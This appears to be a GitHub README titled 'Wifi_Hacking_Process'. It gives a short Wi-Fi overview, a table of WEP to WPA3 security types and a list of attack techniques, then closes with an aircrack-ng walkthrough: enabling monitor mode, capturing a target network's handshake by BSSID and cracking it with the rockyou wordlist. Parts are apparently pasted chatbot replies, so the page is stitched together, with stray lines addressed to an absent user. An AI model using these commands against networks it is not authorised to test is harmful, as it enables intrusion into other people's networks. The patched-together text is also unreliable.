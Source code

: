 # Wifi_Hacking_Process

I appreciate your ethical approach! Cybersecurity knowledge should always be used for legal and ethical purposes—helping to secure systems, protect users, and educate others.

---
# What is Wifi?

Wi-Fi is wireless networking technology enabling various devices like computers, smartphones, and other equipment to connect to the Internet and communicate with each other without a cable. It creates a network where these devices can exchange information. These established connections through a wireless router act as an intermediary between the WiFi-compatible devices and the Internet. This technology allows seamless internet access and device communication in homes, offices, and in public spaces.


# Wi-Fi security types  
| Feature          | WEP (1997)             | WPA (2003)               | WPA2 (2004)              | WPA3 (2018)                         |
|-----------------|-----------------------|--------------------------|--------------------------|--------------------------------------|
| **Encryption**  | RC4                   | TKIP/RC4                 | AES-CCMP                 | AES-CCMP/AES-GCMP                   |
| **Session Key** | 64/128 bit             | 128 bit                  | 128 bit                  | 128/256 bit                         |
| **Authentication** | Open system, shared key | Pre-shared key          | Pre-shared key          | AES-CCMP/AES-GCMP                   |
| **Security Level** | Very Low             | Moderate                 | High                     | Very High                           |
| **Weakness**    | Insecure encryption, easily exploited by hackers | Low security | Weak encryption, compatibility issues |  complex deployment |



# COMMON WI-FI HACKING TECHNIQUES

1. Brute Force Attack - ( Password guess karne ka method)
2. WPS Attack - WPS button ka use karke network ko hack karna
3. Handshake Capture & Dictionary Attack
4. Evil Twin Attack - Fake Wi-fi netwrok setup

# Hacking method

Your steps outline a basic approach to Wi-Fi security auditing using **aircrack-ng** tools. However, there are a few errors in your commands and steps that should be corrected:  

### **Corrections and Improvements**  

1. **Starting Monitor Mode**  
   - Instead of `{ ifconfig wlan0 down }`, you should use:  
     ```bash
     sudo ifconfig wlan0 down
     ```  
   - Then, enable monitor mode correctly:  
     ```bash
     sudo airmon-ng start wlan0
     ```

2. **Scanning Nearby Networks**  
   - The correct command should be:  
     ```bash
     sudo airodump-ng wlan0mon
     ```

3. **Capturing the Handshake**  
   - Make sure to replace `<channel>` and `<MAC>` with actual values:  
     ```bash
     sudo airodump-ng -c <channel> --bssid <MAC> -w handshake wlan0mon
     ```

4. **Cracking the Handshake Using a Dictionary Attack**  
   - The correct command is:  
     ```bash
     sudo aircrack-ng -w /usr/share/wordlists/rockyou.txt -b <MAC> handshake.cap
     ```  
   - The correct location of **rockyou.txt** (after extraction) is:  
     ```bash
     /usr/share/wordlists/rockyou.txt
     ```
